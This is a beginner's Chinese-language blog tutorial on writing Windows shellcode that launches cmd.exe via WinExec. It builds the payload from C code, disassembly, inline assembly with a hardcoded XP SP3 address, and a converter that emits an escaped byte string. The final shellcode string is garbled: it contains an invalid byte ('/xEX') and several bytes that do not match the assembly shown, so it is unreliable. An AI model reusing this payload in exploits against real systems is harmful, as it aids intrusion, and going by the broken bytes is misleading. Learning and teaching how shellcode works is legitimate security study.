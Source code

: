 ```yaml
---
layout: post
categories: shellcode
title: Shell初级入门程序
date: 2018-04-11 13:12:45 +0800
description: shellcode 进行服务器的渗透
keywords: shellcode linux
---
```


## 前言

很久没有写博客了，今天写写一个以前没有写过的话题，缓冲区溢出shellcode编写。

我是菜鸟，以前没有写过shellcode，最近也在忙着网络的渗透，栈溢出也是零零碎碎的看到一些知识，大牛飘过，菜鸟言论仅供娱乐。

大家同是菜鸟的人可以看看，我是站在初学者的角度写这篇文章的，所以初学者应该比较容易理解。

对于一些复杂的shellcodet我们暂且先不谈，我们先来看看自己编写一个打开cmd窗口的shellcode。其实黑客防线上有位大神执笔写了一系列exploit的编写，有兴趣的人自己去看看。

## 首先我们需要了解一下windows的运行机制。我们先写一个简单的开启本地cmd窗口的程序：

```c
#include<windows.h>  
Void main()  
{  
   WinExec("cmd.exe",1);  
} 
```


### 在Visual C++上按F10进入反汇编代码:

```c
:#include”windows.h”  
2:void main()  
3:    {  
00401010   push        ebp  
00401011   mov         ebp,esp  
00401013   sub         esp,40h  
00401016   push        ebx  
00401017   push        esi  
00401018   push        edi  
00401019   lea         edi,[ebp-40h]  
0040101C   mov         ecx,10h  
00401021   mov         eax,0CCCCCCCCh  
00401026   rep stos    dword ptr [edi]  
4:        WinExec("cmd.exe",1);  
00401028   mov         esi,esp  
0040102A   push        1  
0040102C   push        offset string "cmd.exe" (0041f01c)  
00401031   call        dword ptr [__imp__WinExec@8 (0042413c)]  
00401037   cmp         esi,esp  
00401039   call        __chkesp (00401070)  
5:    }  
```


通过这个程序我们可以清楚的看到计算机在调用WinExec函数的时候是先把两个参数从右至左一次压入栈，然后调用call函数转到WinExec的地址去。但是要注意的是call函数除了实现地址的跳转还有一点就是把当前的EIP压入栈。

对于shellcode是机器码，大多数人看到都会晕乎乎的，但是不用怕，我们所要做的工作不是用机器码写这一大堆东西，这些计算机已经为我们做的很好了，我们所要做的就是用汇编甚至是高级语言写下我们要实现的代码。




但目前其实目的已经很明确，我们要调用WinExec函数就要知道在不同系统中WinExec函数所在的地址，那么用什么方法知道这个函数所在的地址呢？这里我介绍一种非常简便的办法，使用vc自带的depends工具。打开Depends，随便拖一个PE文件进去如下图：

![](http://zmatsh.b0.upaiyun.com/demos/feb1aef7-5ae0-43d1-bdbf-b234589fa766.jpeg)


我们可以看到KERNEL.DLL的入口地址是0x7c800000而WinExec的入口地址是0x0006250D那么WinExec的地址就出来了两个相加得到0x7C86250D，这个方法是不是很简单？另外本菜鸟使用的是windows XP sp3不同的系统可能有所不同。

有了入口地址，我们可以用汇编来编写我们的shellcode，

```c
#include<windows.h>  
void main()  
{  
    _asm  
    {  
        push ebp  
        mov ebp,esp  
        xor edi,edi  
        push edi  
        sub esp,04h  
        mov [ebp-08h],63h  
        mov [ebp-07h],6Dh  
        mov [ebp-06h],64h  
        mov [ebp-05h],2Eh  
        mov [ebp-04h],65h  
        mov [ebp-03h],78h  
        mov [ebp-02h],65h  
        push 1         //压入第一个参数  
        lea eax,[ebp-08h]           
        push eax           //压入第二个参数  
        mov edx,0x7C86250D  
        call edx            //调用WinExec  
        leave  
    };  
}  

```

按F10进入反汇编调试器中，在按Alt+8看到汇编代码，此时并没有机器码啊，别着急，在空白的地方右击出现的下拉菜单中选中Code Byte一项。看看出现了什么？在每一行汇编代码前出现了机器码！如下图

![](http://zmatsh.b0.upaiyun.com/demos/0d6ce28d-d9c8-47b8-b21b-1eeb923c9754.bmp)

下面要做的工作就是把这些机器码抄下来了，这个是体力活。直接抄在一起比如：558BEC83EC……那么我们还要在每两个字母前手动添加/x么？当然不用，写一个小程序，一劳永逸：

```c
#include "stdio.h"  
#include "stdlib.h"  
int main()  
{  
    FILE *fp1=NULL,*fp2=NULL;  
    char ch,filename[20]={0};  
    printf("请输入文件路径：(注意字符转义)/n");  
    scanf("%s",filename);  
    if((fp1=fopen(filename,"rb"))==NULL)  
    {  
        printf("不能读取文件！/n");  
        exit(0);  
    }  
    if((fp2=fopen("shellcode.txt","w+"))==NULL)  
    {  
        printf("不能写入文件！/n");  
        exit(0);  
    }  
    while (!feof(fp1))  
    {  
        ch=fgetc(fp1);  
        fputc('//',fp2);  
        fputc('x',fp2);  
        fputc(ch,fp2);  
        ch=fgetc(fp1);  
        fputc(ch,fp2);  
    }  
    printf("转换成功！");  
    fclose(fp1);  
    fclose(fp2);  
    return 0;  
      
}  
```

最终转换的shellcode就是

```c
/x55/x8B/xEX/x83/xEC/x40/x53/x56/x57/x8D/x7D/xC0/xB9/x10/x11/x11/x11/xB8/xCC/xCC/xCC/xCC/xF3/x1B/x55/x8B/xEC/x33/xFF/x57/x83/xEC/x04/xC6/x45/xF8/x63/xC6/x45/xF9/x6D/xC6/x45/xFA/x64/xC6/x45/xFB/x2E/xC6/x45/xFC/x65/xC6/x45/xFD/x78/xC6/x45/xFE/x65/x6A/x01/x8D/x45/xF8/x50/xBA/x0D/x25/x86/x7C/xFF/xD2/xC9
```
到这里该讲的都讲完了，还是那一句话，菜鸟言论，大牛飘过。。。

### 原文：https://blog.csdn.net/yiyefangzhou24/article/details/6440239


转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
